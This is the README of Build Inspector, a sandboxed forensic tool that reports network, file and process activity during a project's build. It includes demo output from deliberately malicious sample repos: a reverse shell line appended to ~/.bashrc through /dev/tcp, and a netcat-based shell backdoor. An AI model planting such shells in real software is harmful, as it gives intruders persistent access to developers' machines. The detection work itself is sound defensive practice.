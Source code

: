 # Build Inspector

[Build Inspector](https://github.com/srcclr/build-inspector) is a forensic sandbox for buliding source code and gives insight into what's happening during the build of a project. It's language and build system agnostic and is capable of inspecting network activities, file system changes, and running
processes. All build operations happen in a sandboxed environment without
compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both Ruby and Vagrant installed, go ahead and install
the Sahara plugin, bundler and this project's dependencies.

```
vagrant plugin install sahara
git clone https://github.com/srcclr/build-inspector
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/srcclr/build-inspector#requirements)
and you are inside the repository's directory.

```
cd build_inspector
```

Since this tool does not manage Vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
Vagrant and build the image:

``` vagrant up ```

Once vagrant is started, save a snapshot with:
```
vagrant sandbox on
```

### Usage

```
Usage inspector [options] <git repo URL>
    -h, --help                       Display this screen
    -n, --no-rollback                Don't rollback the virtual machine's state after running
```

### Gradle Example

```
cp configs/gradle_inspect.yml .inspect.yml
./inspector https://github.com/jsyeo/TotallyLegitApp.git
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`201523110032412-TotallyLegitApp-evidence.zip` which has all the
network activity, file system changes, and any new processes.

### Bundler Example

```
cp configs/bundler_inspect.yml .inspect.yml
./inspector https://github.com/jsyeo/harmless-project.git
```

This bundler project has a gem that pings Google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
The following hostnames were reached during the build process:
  www.google.com (74.125.200.99)                                     543B
```

### NPM Example

```
cp configs/npm_inspect.yml .inspect.yml
./inspector https://github.com/jsyeo/ann-pee-am
```

Inspecting this NPM project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the NPM project depends on a module that opens a
persistent backdoor using `netcat`.

### Configuration

The tool monitors all network and file system activities. To ignore
hosts or exclude directories from the monitoring, create and add an
`.inspect.yml` in the repository. The `.inspect.yml' file is simply
a YAML file that looks like this:

```
---

script: bundle install --jobs 2

whitelist:
  - 10.0.2.2
  - 8.8.8.8
  - bundler.rubygems.org
  - rubygems.org
  - rubygems.global.ssl.fastly.net

directories:
  excluded:
    - /home/vagrant/.gem
  included:
    - /etc
```

There are examples for different build systems in the [configs](configs)
directory. You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Development

When you want to experiment, just do:
`vagrant sandbox on`

Then, make all the changes you want to the image. If you'd like to save the changes, do:
`vagrant sandbox commit`

Otherwise, you can wipe out the changes with:
`vagrant sandbox rollback`
